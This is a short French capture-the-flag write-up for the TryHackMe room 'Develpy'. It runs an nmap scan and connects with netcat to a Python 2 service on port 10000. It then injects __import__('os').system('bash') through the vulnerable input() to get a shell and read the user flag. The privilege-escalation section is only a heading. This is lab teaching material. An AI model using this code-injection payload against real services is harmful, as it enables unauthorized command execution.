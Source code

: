 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur pour voir ce que ça va donner.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.
>S'il s'agit de python2 ,alors les commandes qu'on enverra au module input seront exécutées car le module input de python2 est vulnérable.

# Deuxième étape : exploitation de vulnérabilité

Dans ce cas c'est bien python2 qui est utilisé.

```python
__import__('os').system('bash')
```
La commande marche bien à merveille.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
Avec la commande ci-dessus on a le premier flag.


# Troisième étape : Escalade de privilège

